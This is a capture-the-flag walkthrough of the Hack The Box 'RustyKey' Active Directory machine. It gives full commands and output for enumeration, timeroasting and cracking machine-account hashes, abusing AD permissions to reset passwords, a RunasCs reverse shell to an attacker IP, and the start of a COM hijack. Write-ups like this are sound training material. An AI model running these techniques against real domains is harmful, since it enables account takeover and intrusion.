

> [!Note]
>
> |User|Root|
> |---|---|
> |✅|✅|


## 1. Recon

### 1.1. Port Scan `nmap`

Quick initial scan to find open ports:

```console
root@kali:~# nmap -sS -p- --min-rate 100000 -Pn 10.10.11.75
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 18:10 +08
Warning: 10.10.11.75 giving up on port because retransmission cap hit (10).
Nmap scan report for rustykey.htb (10.10.11.75)
Host is up (0.0062s latency).
Not shown: 45895 closed tcp ports (reset), 19613 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49680/tcp open  unknown
49696/tcp open  unknown
49730/tcp open  unknown
58205/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 5.18 seconds
```

Script and version scan on open ports:

```console
root@kali:~# nmap -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49676,49677,49680,49696,49730,58205 -sCV 10.10.11.75
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 18:11 +08
Nmap scan report for rustykey.htb (10.10.11.75)
Host is up (0.0062s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-31 10:11:46Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49730/tcp open  msrpc         Microsoft Windows RPC
58205/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-08-31T10:12:46
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.53 seconds
```

## 2. Exploring Active Directory

### 2.1. Exploring with provided credentials

> **Machine information given:**
>
> As is common in real life Windows pentests, you will start the Vintage box with credentials for the following account:
>
> `rr.parker` / `8#t5HE8L!W3A`

Provided credentials cannot log in directly:

```console
root@kali:~# netexec smb dc.rustykey.htb -u rr.parker -p '8#t5HE8L!W3A'
SMB         10.10.11.75     445    10.10.11.75      [*]  x64 (name:10.10.11.75) (domain:10.10.11.75) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.10.11.75     445    10.10.11.75      [-] 10.10.11.75\rr.parker:8#t5HE8L!W3A STATUS_NOT_SUPPORTED

root@kali:~# netexec ldap dc.rustykey.htb  -u rr.parker -p '8#t5HE8L!W3A'
LDAP        10.10.11.75     389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        10.10.11.75     389    DC               [-] rustykey.htb\rr.parker:8#t5HE8L!W3A STATUS_NOT_SUPPORTED
```

### 2.2. Attempting Kerberos

Attempting to get TGT resutled in `KRB_AP_ERR_SKEW(Clock skew too great)` error:

```console
root@kali:~# impacket-getTGT rustykey.htb/rr.parker:'8#t5HE8L!W3A' -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Let's sync the time on Kali with the target

Install ntpdate: `apt -y install ntpsec-ntpdate`

Turns out the time on Kali was 27271 seconds behind of the target

```console
root@kali:~# ntpdate -q dc.rustykey.htb
2025-09-07 15:12:12.981306 (+0800) +27271.702652 +/- 0.003064 dc.rustykey.htb 10.10.11.75 s1 no-leap
```

Disable NTP on Kali and sync the time with the target

```console
root@kali:~# timedatectl set-ntp 0

root@kali:~# ntpdate dc.rustykey.htb
2025-09-07 15:13:04.169129 (+0800) +27271.702622 +/- 0.002899 dc.rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 27271.702622

root@kali:~# ntpdate -q dc.rustykey.htb
2025-09-07 15:13:13.411174 (+0800) -0.000026 +/- 0.002820 dc.rustykey.htb 10.10.11.75 s1 no-leap
```

`getTGT` works after the time sync

```console
root@kali:~# impacket-getTGT rustykey.htb/rr.parker:'8#t5HE8L!W3A' -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in rr.parker.ccache

root@kali:~# export KRB5CCNAME=rr.parker.ccache
```

## 2.3. Getting some information with rr.parker TGT

Get shares

```console
root@kali:~# netexec smb dc.rustykey.htb -d rustykey.htb -u rr.parker -k --use-kcache --shares
SMB         dc.rustykey.htb 445    dc               [*]  x64 (name:dc) (domain:rustykey.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.rustykey.htb 445    dc               [+] rustykey.htb\rr.parker from ccache
SMB         dc.rustykey.htb 445    dc               [*] Enumerated shares
SMB         dc.rustykey.htb 445    dc               Share           Permissions     Remark
SMB         dc.rustykey.htb 445    dc               -----           -----------     ------
SMB         dc.rustykey.htb 445    dc               ADMIN$                          Remote Admin
SMB         dc.rustykey.htb 445    dc               C$                              Default share
SMB         dc.rustykey.htb 445    dc               IPC$            READ            Remote IPC
SMB         dc.rustykey.htb 445    dc               NETLOGON        READ            Logon server share
SMB         dc.rustykey.htb 445    dc               SYSVOL          READ            Logon server share
```

Get users

```console
root@kali:~# netexec ldap dc.rustykey.htb -d rustykey.htb -u rr.parker -k --use-kcache --users
LDAP        dc.rustykey.htb 389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        dc.rustykey.htb 389    DC               [+] rustykey.htb\rr.parker from ccache
LDAP        dc.rustykey.htb 389    DC               [*] Enumerated 11 domain users: rustykey.htb
LDAP        dc.rustykey.htb 389    DC               -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP        dc.rustykey.htb 389    DC               Administrator                 2025-06-05 06:52:22 0        Built-in account for administering the computer/domain
LDAP        dc.rustykey.htb 389    DC               Guest                         <never>             0        Built-in account for guest access to the computer/domain
LDAP        dc.rustykey.htb 389    DC               krbtgt                        2024-12-27 08:53:40 0        Key Distribution Center Service Account
LDAP        dc.rustykey.htb 389    DC               rr.parker                     2025-06-05 06:54:15 0
LDAP        dc.rustykey.htb 389    DC               mm.turner                     2024-12-27 18:18:39 0
LDAP        dc.rustykey.htb 389    DC               bb.morgan                     2025-09-07 15:16:39 0
LDAP        dc.rustykey.htb 389    DC               gg.anderson                   2025-09-07 15:16:39 0
LDAP        dc.rustykey.htb 389    DC               dd.ali                        2025-09-07 15:16:39 0
LDAP        dc.rustykey.htb 389    DC               ee.reed                       2025-09-07 15:16:39 0
LDAP        dc.rustykey.htb 389    DC               nn.marcos                     2024-12-27 19:34:50 0
LDAP        dc.rustykey.htb 389    DC               backupadmin                   2024-12-30 08:30:18 0
```

Get RIDs:

```console
root@kali:~# netexec smb dc.rustykey.htb -d rustykey.htb -u rr.parker -k --use-kcache --rid-brute
SMB         dc.rustykey.htb 445    dc               [*]  x64 (name:dc) (domain:rustykey.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.rustykey.htb 445    dc               [+] rustykey.htb\rr.parker from ccache
SMB         dc.rustykey.htb 445    dc               498: RUSTYKEY\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               500: RUSTYKEY\Administrator (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               501: RUSTYKEY\Guest (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               502: RUSTYKEY\krbtgt (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               512: RUSTYKEY\Domain Admins (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               513: RUSTYKEY\Domain Users (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               514: RUSTYKEY\Domain Guests (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               515: RUSTYKEY\Domain Computers (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               516: RUSTYKEY\Domain Controllers (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               517: RUSTYKEY\Cert Publishers (SidTypeAlias)
SMB         dc.rustykey.htb 445    dc               518: RUSTYKEY\Schema Admins (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               519: RUSTYKEY\Enterprise Admins (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               520: RUSTYKEY\Group Policy Creator Owners (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               521: RUSTYKEY\Read-only Domain Controllers (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               522: RUSTYKEY\Cloneable Domain Controllers (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               525: RUSTYKEY\Protected Users (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               526: RUSTYKEY\Key Admins (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               527: RUSTYKEY\Enterprise Key Admins (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               553: RUSTYKEY\RAS and IAS Servers (SidTypeAlias)
SMB         dc.rustykey.htb 445    dc               571: RUSTYKEY\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         dc.rustykey.htb 445    dc               572: RUSTYKEY\Denied RODC Password Replication Group (SidTypeAlias)
SMB         dc.rustykey.htb 445    dc               1000: RUSTYKEY\DC$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1101: RUSTYKEY\DnsAdmins (SidTypeAlias)
SMB         dc.rustykey.htb 445    dc               1102: RUSTYKEY\DnsUpdateProxy (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               1103: RUSTYKEY\Support-Computer1$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1104: RUSTYKEY\Support-Computer2$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1105: RUSTYKEY\Support-Computer3$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1106: RUSTYKEY\Support-Computer4$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1107: RUSTYKEY\Support-Computer5$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1118: RUSTYKEY\Finance-Computer1$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1119: RUSTYKEY\Finance-Computer2$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1120: RUSTYKEY\Finance-Computer3$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1121: RUSTYKEY\Finance-Computer4$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1122: RUSTYKEY\Finance-Computer5$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1123: RUSTYKEY\IT-Computer1$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1124: RUSTYKEY\IT-Computer2$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1125: RUSTYKEY\IT-Computer3$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1126: RUSTYKEY\IT-Computer4$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1127: RUSTYKEY\IT-Computer5$ (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1128: RUSTYKEY\HelpDesk (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               1130: RUSTYKEY\Protected Objects (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               1131: RUSTYKEY\IT (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               1132: RUSTYKEY\Support (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               1133: RUSTYKEY\Finance (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               1136: RUSTYKEY\DelegationManager (SidTypeGroup)
SMB         dc.rustykey.htb 445    dc               1137: RUSTYKEY\rr.parker (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1138: RUSTYKEY\mm.turner (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1139: RUSTYKEY\bb.morgan (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1140: RUSTYKEY\gg.anderson (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1143: RUSTYKEY\dd.ali (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1145: RUSTYKEY\ee.reed (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               1146: RUSTYKEY\nn.marcos (SidTypeUser)
SMB         dc.rustykey.htb 445    dc               3601: RUSTYKEY\backupadmin (SidTypeUser)
```

### 2.4. Bloodhound with rr.parker TGT

Generating bloodhound packages

```console
root@kali:~# bloodhound-ce-python -d rustykey.htb -u rr.parker -p '8#t5HE8L!W3A' -ns 10.10.11.75 -c all --dns-tcp --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: rustykey.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 16 computers
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 12 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer: dc.rustykey.htb
INFO: Done in 00M 01S
INFO: Compressing output into 20250907230146_bloodhound.zip
```

This `rr.parker` user isn't really useful:


But the `mm.turner` user comes up in some shortest path searches, keep this in mind for later:


## 3. Getting access

### 3.1. Timeroasting

A technique called [timeroasting](https://medium.com/@offsecdeer/targeted-timeroasting-stealing-user-hashes-with-ntp-b75c1f71b9ac0) may work here

> Unauthenticated clients can take a list of RIDs and send MS-SNTP requests to a DC to collect MD5 digests calculated with domain computer hashes.
> 
> This makes timeroasting a viable method to identify and crack pre-created machine accounts and other weak computer passwords in a stealthier manner than by using dictionaries or tools like [pre2k](https://github.com/garrettfoster13/pre2k).

Ther are some requirements for timeroasting to work:

1. The target must be a computer account, and cannot be directly targeted at ordinary user accounts (unless "target Timeroasting" modifies the properties).
2. The target domain controller starts and responds to the NTP service with Microsoft SNTP Extended Authentication (MS-SNTP), and UDP port 123 is open.
3. The attacker can send unauthenticated MS-SNTP requests to the DC (no valid credentials are required).
4. The RID (relative identifier) of computer accounts in the domain can be enumerated.
5. (Optional) For "target Timeroasting", domain administrator privileges are required to temporarily modify the user account properties so that it is treated as a computer account.
6. The computer account passwords in the domain are not strongly protected (for example, weak passwords or not changed regularly).

Use the [timeroast.py](https://github.com/SecuraBV/Timeroast) script to dicover hashes:

```console
root@kali:~# curl -sLO https://github.com/SecuraBV/Timeroast/raw/refs/heads/main/timeroast.py

root@kali:~# python timeroast.py 10.10.11.75
1000:$sntp-ms$4b184895bcdac26bd3f6b3a2828053c2$1c0111e900000000000a7e024c4f434cec677c13281ee675e1b8428bffbfcd0aec682232dc582708ec682232dc584a43
1103:$sntp-ms$68afac2200adfe3932ef2cf535128328$1c0111e900000000000a7e024c4f434cec677c13283f1412e1b8428bffbfcd0aec68223374473471ec68223374474d9c
1104:$sntp-ms$8a79f64c17489cfdef6abde741677d05$1c0111e900000000000a7e024c4f434cec677c1329a807f1e1b8428bffbfcd0aec68223375b02348ec68223375b044d6
1105:$sntp-ms$ebfd6adc05f50eb9c4282ecd3b1c4bee$1c0111e900000000000a7e024c4f434cec677c132b01c0cae1b8428bffbfcd0aec6822337709ddcfec6822337709fdaf
1106:$sntp-ms$52b87937859eaa1487344fdab51f8b9a$1c0111e900000000000a7e024c4f434cec677c13283f1c75e1b8428bffbfcd0aec682233785fce9cec682233785feb22
1107:$sntp-ms$ea1eab18ecb64061f9a68e02328857dc$1c0111e900000000000a7e024c4f434cec677c1329a88acee1b8428bffbfcd0aec68223379c93cf5ec68223379c95b28
1118:$sntp-ms$f8c827e647464466b757f683c07bf547$1c0111e900000000000a7e024c4f434cec677c1329e93ef3e1b8428bffbfcd0aec68223389e92fd9ec68223389e94904
1119:$sntp-ms$e95abb61d469e5b222ba9a0b86c51f0a$1c0111e900000000000a7e024c4f434cec677c132b51f9c7e1b8428bffbfcd0aec6822338b51e5a5ec6822338b5203d8
1120:$sntp-ms$6b59da9b61a3fb4a00209a5b29a3f403$1c0111e900000000000a7e024c4f434cec677c132898af8ee1b8428bffbfcd0aec6822338cb12b86ec6822338cb1506f
1121:$sntp-ms$03d52cff33b5b2dadff43f36dce934f0$1c0111e900000000000a7e024c4f434cec677c1329ff822be1b8428bffbfcd0aec6822338e17f91bec6822338e18230c
1122:$sntp-ms$e61ff6e705a5eeda173c1bcdfa79823a$1c0111e900000000000a7e024c4f434cec677c132b60a633e1b8428bffbfcd0aec6822338f79207dec6822338f794566
1123:$sntp-ms$92b3593af0f6100870e32c86ebfe63a2$1c0111e900000000000a7e024c4f434cec677c1328a4ac1ce1b8428bffbfcd0aec68223390d5bb88ec68223390d5e071
1124:$sntp-ms$ad1747f7e239d3b50692b920a23af53c$1c0111e900000000000a7e024c4f434cec677c132a0b8066e1b8428bffbfcd0aec682233923c8e25ec682233923cb161
1125:$sntp-ms$dd16964e6d6f05fda3e825ebf5d1f424$1c0111e900000000000a7e024c4f434cec677c1327c0d979e1b8428bffbfcd0aec68223393c8f82bec68223393c914b1
1126:$sntp-ms$b2a364d005ab94fe19a0c309f650ef86$1c0111e900000000000a7e024c4f434cec677c132905c38ee1b8428bffbfcd0aec682233950ddd38ec682233950e0073
1127:$sntp-ms$51001bfc2f7768ccc4e59c4db49f0830$1c0111e900000000000a7e024c4f434cec677c13291bdcd5e1b8428bffbfcd0aec6822339523f82cec682233952419ba
```

Download and unpack the latest version of hashcat:

```console
root@kali:~# curl -sLO https://github.com/hashcat/hashcat/releases/download/v7.1.2/hashcat-7.1.2.7z

root@kali:~# 7z x hashcat-7.1.2.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_SG.UTF-8 Threads:8 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 19682772 bytes (19 MiB)

Extracting archive: hashcat-7.1.2.7z
--
Path = hashcat-7.1.2.7z
Type = 7z
Physical Size = 19682772
Headers Size = 25149
Method = LZMA2:384m LZMA:20 BCJ2
Solid = +
Blocks = 2

Everything is Ok

Folders: 56
Files: 3100
Size:       389386374
Compressed: 19682772
```

Put the hashes from `timeroast.py` without the `<rid>:` prefix and run hashcat against the hashes with rockyou.txt

```console
root@kali:~/hashcat-7.1.2# ./hashcat.bin -m 31300 ../timeroast-hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting
⋮

$sntp-ms$dd16964e6d6f05fda3e825ebf5d1f424$1c0111e900000000000a7e024c4f434cec677c1327c0d979e1b8428bffbfcd0aec68223393c8f82bec68223393c914b1:Rusty88!
Approaching final keyspace - workload adjusted.
⋮
```

Match the cracked hash with the original `timeroast.py` output and the RID is `1125`

Search for RID `1125` in BloodHound:


The computer account `IT-COMPUTER3` has `AddSelf` permission to `HELPDESK`:


`HELPDESK` has outbound control to several objects:


ForceChangePassword:


GenericWrite:


AddMember:


### 3.2. Get TGT for `IT-COMPUTER3`

```console
root@kali:~# impacket-getTGT rustykey.htb/IT-COMPUTER3:'Rusty88!' -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in IT-COMPUTER3.ccache

root@kali:~# export KRB5CCNAME=IT-COMPUTER3.ccache
```

### 3.3. Add `IT-COMPUTER3` to `HELPDESK` group

> [!Tip]
>
> bloodyAD is used to perform specific LDAP calls to a domain controller for AD privesc
> 
> It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc
>
> Install bloodyAD in Kali with `apt -y install bloodyad`

```console
root@kali:~# bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember HELPDESK 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```

### 3.4. Getting access to `bb.morgan`

Using `ForceChangePassword` permission to reset password for `bb.morgan`:

```console
root@kali:~# bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan Pass1234
[+] Password changed successfully!
```

Getting TGT as `bb.morgan` fails:

```console
root@kali:~# impacket-getTGT rustykey.htb/bb.morgan:Pass1234 -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
```

That's because `bb.morgan` is a member of `IT` group, which is a member of `PROTECTED OBJECTS` group:


Remove `IT` group from `PROTECTED OBJECTS` group:

```console
root@kali:~# bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' IT
[-] IT removed from PROTECTED OBJECTS
```

Getting TGT for `bb.morgan` works:

```console
root@kali:~# impacket-getTGT rustykey.htb/bb.morgan:Pass1234 -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in bb.morgan.ccache

root@kali:~# export KRB5CCNAME=bb.morgan.ccache
```

Kerberos config file is required to use `evil-winrm` to connect to target using TGT

Create `/etc/krb5.conf` to point to `dc.rustykey.htb` as KDC:

```sh
cat << EOF > /etc/krb5.conf
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }
[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
EOF
```

Connect to target as `bb.morgan` and get user flag:

```console
root@kali:~# evil-winrm -i dc.rustykey.htb -r rustykey.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> type ..\Desktop\user.txt
c089bcf4eb71d15e482fc826d35ff99a
```

## 4. Lateral movement

### 4.1. Lateral movement to `ee.reed`

#### 4.1.1. Getting access to `ee.reed`

There's an internal document found on `bb.morgan`'s desktop:

```cmd
*Evil-WinRM* PS C:\Users\bb.morgan> dir Desktop


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---         9/5/2025   8:36 PM             34 user.txt


*Evil-WinRM* PS C:\Users\bb.morgan> download Desktop/internal.pdf

Info: Downloading C:\Users\bb.morgan\Desktop/internal.pdf to internal.pdf

Info: Download successful!
```

It appears that the `SUPPORT` group can modify the registry and can test compression/decompression related functions:


Recall that `ee.reed` is a member of `SUPPORT` group:


And `HELPDESK` can ForceChangePAssword on `ee.reed`:


Reset password for `ee.reed`:

```console
root@kali:~# bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed Pass1234
[+] Password changed successfully!
```

Remove `SUPPORT` group from `PROTECTED OBJECTS` group:

```console
root@kali:~# bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' SUPPORT
[-] SUPPORT removed from PROTECTED OBJECTS
```

Get TGT for `ee.reed`:

```console
root@kali:~# impacket-getTGT rustykey.htb/ee.reed:Pass1234
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in ee.reed.ccache

root@kali:~# export KRB5CCNAME=ee.reed.ccache
```

Connecting with `evil-winrm` doesn't work:

```console
root@kali:~# evil-winrm -i dc.rustykey.htb -r rustykey.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Invalid token was supplied
Success


Error: Exiting with code 1
malloc_consolidate(): unaligned fastbin chunk detected
Aborted
```

#### 4.1.2. RunasCs to switch user to `ee.reed`

We have the credentials of `ee.reed` but `evil-winrm` didn't work, let's try to switch user with [RunasCs](https://github.com/antonioCoco/RunasCs)

Prepare RunasCs:

```console
root@kali:~# curl -sLO https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip

root@kali:~# unzip RunasCs.zip
Archive:  RunasCs.zip
  inflating: RunasCs.exe
  inflating: RunasCs_net2.exe
```

Upload `RunasCs.exe` in the `bb.morgan` session:

```pwsh
*Evil-WinRM* PS C:\Users\bb.morgan> upload RunasCs.exe

Info: Uploading /root/RunasCs.exe to C:\Users\bb.morgan\RunasCs.exe

Data: 68948 bytes of 68948 bytes copied

Info: Upload successful!
```

Start a listener on Kali: `rlwrap nc -nlvp 4444`

Execute:

```pwsh
*Evil-WinRM* PS C:\Users\bb.morgan> .\RunasCs.exe ee.reed Pass1234 cmd -r 10.10.14.3:4444
[*] Warning: User profile directory for user ee.reed does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'ee.reed' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-1996d826$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 29688 created in background.
```

Reverse shell hooked as `ee.reed`:

```cmd
root@kali:~# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.75] 53121
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
rustykey\ee.reed
```

### 4.2. Lateral movement to `mm.turner`

#### Component Object Model (COM) hijack

Recall from `internal.pdf` about registry and some compression/decompression related functions

Windows applications often call COM components through CLSIDs (Class IDs), and the system will load the corresponding DLL or EXE according to the configuration in the registry

Let's see if we can tamper with the registry entries of existing COM components​​ to point to malicious DLLs

Since the registry is related to compression, let's first check the possible CLSIDs:

```cmd
C:\Windows\system32>reg query HKCR\CLSID /s /f zip
